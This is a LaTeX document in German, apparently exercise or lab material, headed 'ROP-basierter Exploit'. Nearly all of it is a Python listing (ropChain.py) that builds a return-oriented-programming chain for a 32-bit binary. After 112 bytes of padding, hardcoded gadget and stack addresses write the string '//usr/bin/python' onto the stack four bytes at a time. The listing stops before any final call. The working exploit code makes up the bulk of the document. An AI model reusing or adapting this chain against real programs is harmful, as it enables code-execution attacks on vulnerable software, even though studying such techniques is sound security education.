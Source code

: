 \documentclass[]{scrreprt}
\begin{document}
\chapter{ROP-basierter Exploit}
Folgender Code liefer die ROP-Chain (\texttt{ropChain.py}):
\begin{lstlisting}[frame=single]
rop = ''
rop += 'A'*112
	
#pop esi; -> esi zeigt auf die 0xffffce70 im Stack!
rop += '\xd8\x96\x04\x08' 
rop += '\x70\xce\xff\xff'
	
#pop eax; pop edx; pop ebx;
#der String soll im eax stehen, die x90 bytes sind padding Bytes
rop += '\xe4\x5d\x05\x08'
rop += '//us'
rop += '\x90\x90\x90\x90'
rop += '\x90\x90\x90\x90'

#mov dword ptr [esi], eax; add esp, 4; pop ebx; pop esi;
#schreibe den String Stueck fuer Stueck in den Stack rein, 
#der Pointer vom ESI wird dabei um 4 erhoeht 
#x90 Bytes = Padding
rop += '\x40\x57\x05\x08'
rop += '\x90\x90\x90\x90'
rop += '\x90\x90\x90\x90'
rop += '\x74\xce\xff\xff'

#pop eax; pop edx; pop ebx;
#der String soll im eax stehen, die x90 bytes sind padding Bytes
rop += '\xe4\x5d\x05\x08'
rop += 'r/bi'
rop += '\x90\x90\x90\x90'
rop += '\x90\x90\x90\x90'
	
#mov dword ptr [esi], eax; add esp, 4; pop ebx; pop esi;
#schreibe den String Stueck fuer Stueck in den Stack rein, 
#der Pointer vom ESI wird dabei um 4 erhoeht 
#x90 Bytes = Padding	
rop += '\x40\x57\x05\x08'
rop += '\x90\x90\x90\x90'
rop += '\x90\x90\x90\x90'
rop += '\x78\xce\xff\xff'

#pop eax; pop edx; pop ebx;
#der String soll im eax stehen, die x90 bytes sind padding Bytes
rop += '\xe4\x5d\x05\x08'
rop += 'n/py'
rop += '\x90\x90\x90\x90'
rop += '\x90\x90\x90\x90'

#mov dword ptr [esi], eax; add esp, 4; pop ebx; pop esi;
#schreibe den String Stueck fuer Stueck in den Stack rein, 
#der Pointer vom ESI wird dabei um 4 erhoeht 
#x90 Bytes = Padding
rop += '\x40\x57\x05\x08'
rop += '\x90\x90\x90\x90'
rop += '\x90\x90\x90\x90'
rop += '\x7c\xce\xff\xff'

#pop eax; pop edx; pop ebx;
#der String soll im eax stehen, die x90 bytes sind padding Bytes
rop += '\xe4\x5d\x05\x08'
rop += 'thon'
rop += '\x90\x90\x90\x90'
rop += '\x90\x90\x90\x90'
	
#mov dword ptr [esi], eax; add esp, 4; pop ebx; pop esi;
#schreibe den String Stueck fuer Stueck in den Stack rein, 
#der Pointer vom ESI wird dabei um 4 erhoeht 
#x90 Bytes = Padding
rop += '\x40\x57\x05\x08'
rop += '\x90\x90\x90\x90'
rop += '\x90\x90\x90\x90'
rop += '\x80\xce\xff\xff'
	

\end{lstlisting}
\end{document}
